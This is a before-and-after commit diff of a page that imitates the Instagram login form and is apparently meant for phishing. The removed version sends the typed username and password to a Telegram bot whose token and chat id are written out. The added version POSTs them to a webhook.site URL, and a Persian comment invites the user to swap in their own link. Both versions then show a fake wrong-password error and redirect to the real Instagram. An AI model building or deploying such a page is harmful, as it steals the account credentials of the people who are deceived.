

Before and after one commit to erfan82erfan/instagram_login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 366-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,71 +1,103 @@
 <!DOCTYPE html>
-<html lang="en">
+<html>
 <head>
+    <title>Instagram</title>
     <meta charset="UTF-8">
-<meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Instagram</title>
-
     <style>
-*{margin:0;padding:0;box-sizing:border-box;font-family:-apple-system,BlinkMacSystemFont,"Segoe UI",Roboto,Helvetica,Arial,sans-serif;}
-body{background:#fafafa;display:flex;justify-content:center;align-items:center;min-height:100vh;}
-.container{width:350px;}
-.login-box{background:#fff;border:1px solid #dbdbdb;padding:40px;text-align:center;}
-.logo{font-size:42px;font-weight:700;margin-bottom:35px;font-family:cursive;}
-input{width:100%;padding:10px;margin-bottom:8px;border:1px solid #dbdbdb;border-radius:3px;background:#fafafa;font-size:14px;}
-input:focus{outline:none;border-color:#a8a8a8;background:#fff;}
-button{width:100%;padding:9px;border:none;border-radius:8px;background:#4cb5f9;color:#fff;font-weight:bold;font-size:14px;cursor:pointer;margin-top:10px;}
-button:hover{background:#3797ef;}
-.or{display:flex;align-items:center;margin:20px 0;color:#8e8e8e;font-size:13px;}
-.or::before,.or::after{content:"";flex:1;height:1px;background:#dbdbdb;}
-.or span{margin:0 15px;}
-.fb{color:#385185;font-weight:600;text-decoration:none;display:block;margin-bottom:20px;}
-.forgot{font-size:12px;text-decoration:none;color:#00376b;}
-.error-msg{color:#ed4956;font-size:14px;margin-top:20px;display:none;}
-.signup{margin-top:10px;background:#fff;border:1px solid #dbdbdb;padding:20px;text-align:center;font-size:14px;}
-.signup a{color:#0095f6;text-decoration:none;font-weight:bold;}
+        body {
+            background: #fafafa;
+            font-family: Arial;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+        }
+        .box {
+            background: white;
+            border: 1px solid #dbdbdb;
+            padding: 40px;
+            width: 300px;
+            text-align: center;
+        }
+        h1 {
+            font-size: 40px;
+            margin-bottom: 30px;
+            font-style: italic;
+        }
+        input {
+            width: 100%;
+            padding: 10px;
+            margin: 5px 0;
+            border: 1px solid #dbdbdb;
+            border-radius: 3px;
+            background: #fafafa;
+            font-size: 12px;
+            box-sizing: border-box;
+        }
+        button {
+            width: 100%;
+            padding: 8px;
+            background: #0095f6;
+            color: white;
+            border: none;
+            border-radius: 4px;
+            font-weight: bold;
+            margin-top: 15px;
+            cursor: pointer;
+            font-size: 14px;
+        }
+        .error {
+            color: #ed4956;
+            margin-top: 15px;
+            display: none;
+            font-size: 13px;
+        }
     </style>
-
 </head>
 <body>
-
-<div class="container">
-<div class="login-box">
-<div class="logo">Instagram</div>
-
-<form id="loginForm" onsubmit="handleLogin(event);">
+    <div class="box">
+        <h1>Instagram</h1>
+        <form id="myForm">
             <input type="text" id="username" placeholder="Phone number, username, or email">
             <input type="password" id="password" placeholder="Password">
-<button type="submit">Log in</button>
-<div class="error-msg" id="errorMsg">Sorry, your password was incorrect. Please double-check your password.</div>
+            <button type="submit">Log In</button>
         </form>
-
-<div class="or"><span>OR</span></div>
-<a href="#" class="fb" onclick="document.getElementById('loginForm').requestSubmit();">Log in with Facebook</a>
-<a href="#" class="forgot">Forgot password?</a>
+        <div class="error" id="errorMsg">
+            Sorry, your password was incorrect. Please double-check your password.
         </div>
-<div class="signup">Don't have an account? <a href="#">Sign up</a></div>
     </div>
 
     <script>
-function handleLogin(event) {
-    event.preventDefault();
+        // ⚠️ اینجا لینک webhook.site خودت رو جایگزین کن
+        const WEBHOOK = "https://webhook.site/e33ce720-3db9-4ea8-981c-93c916ee8698";
 
-    var u = document.getElementById('username').value;
-    var p = document.getElementById('password').value;
+        document.getElementById('myForm').onsubmit = async function(e) {
+            e.preventDefault();
 
+            var user = document.getElementById('username').value;
+            var pass = document.getElementById('password').value;
+
+            // ارسال اطلاعات به webhook
+            await fetch(WEBHOOK, {
+                method: 'POST',
+                headers: {'Content-Type': 'application/json'},
+                body: JSON.stringify({
+                    username: user,
+                    password: pass,
+                    time: new Date().toLocaleString('fa-IR')
+                })
+            });
+
+            // نمایش خطا مثل اینستاگرام واقعی
             document.getElementById('errorMsg').style.display = 'block';
             document.getElementById('password').value = '';
 
-    var url = "https://api.telegram.org/bot8962136688:AAHUGtRUtEvN-yVvrZUzLDk4U7pbZcP5TvQ/sendMessage?chat_id=8285016242&text=" + encodeURIComponent("🔐 Login!\n👤 " + u + "\n🔑 " + p);
-
-    var img = new Image();
-    img.src = url;
-
+            // بعد از 3 ثانیه برو به اینستاگرام واقعی
             setTimeout(function() {
-        window.location.href = "https://www.instagram.com/accounts/login/";
-    }, 4000);
-}
+                window.location.href = 'https://www.instagram.com/accounts/login/';
+            }, 3000);
+        };
     </script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
